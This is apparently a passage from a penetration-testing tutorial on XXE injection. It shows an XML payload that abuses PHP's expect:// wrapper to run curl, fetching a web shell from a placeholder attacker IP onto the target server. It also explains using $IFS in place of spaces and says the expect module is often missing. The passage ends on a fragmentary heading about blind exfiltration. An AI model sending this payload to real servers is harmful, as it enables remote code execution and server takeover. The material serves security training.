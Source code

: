     Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:
    
    Code: xml
    
    ```
    <?xml version="1.0"?>
    <!DOCTYPE email [
      <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
    ]>
    <root><name></name><tel></tel><email>&company;</email><message></message></root>
    ```
    
    **Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.
    
    Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.
    
    **Note:** The expect module is not enabled/installed  
    by default on modern PHP servers, so this attack may not always work.  
    This is why XXE is usually used to disclose sensitive local files and  
    source code, which may reveal additional vulnerabilities or ways to gain  
    code execution.
    
    ---
    
    ## Blind Data Exfiltration
    
    - mainly blind : ) >